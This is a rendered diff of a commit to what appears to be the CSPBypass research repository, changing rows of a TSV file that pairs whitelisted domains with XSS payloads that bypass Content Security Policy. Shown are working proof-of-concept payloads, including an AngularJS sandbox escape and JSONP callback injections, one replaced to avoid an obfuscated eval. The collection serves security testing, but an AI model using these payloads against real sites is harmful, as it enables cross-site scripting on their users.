

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown; the shorter side is filled out with more unchanged rows.

Commit message:
Removed usage of eval

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -5,3 +5,3 @@ ads.yap.yahoo.com	<script src="https://ads.yap.yahoo.com/nosdk/wj/v1/getAds.do?l
 ajax.googleapis.com	<body ng-app ng-csp><script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.4.5/angular.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>
-analytics.tiktok.com	<script src="https://analytics.tiktok.com/i18n/pixel/sdk.js?sdkid=%22-[][`constructor`][`constructor`](`aler`%2b`t(document.domain)`)()-%22"></script>
+analytics.tiktok.com	<script src="https://analytics.tiktok.com/i18n/pixel/sdk.js?sdkid=%22-alert`1`-%22"></script>
 anchor.digitalocean.com	<script src="https://anchor.digitalocean.com/index.php/form/getForm?munchkinId=113-DTN-266&form=1402&callback=alert"></script>
```
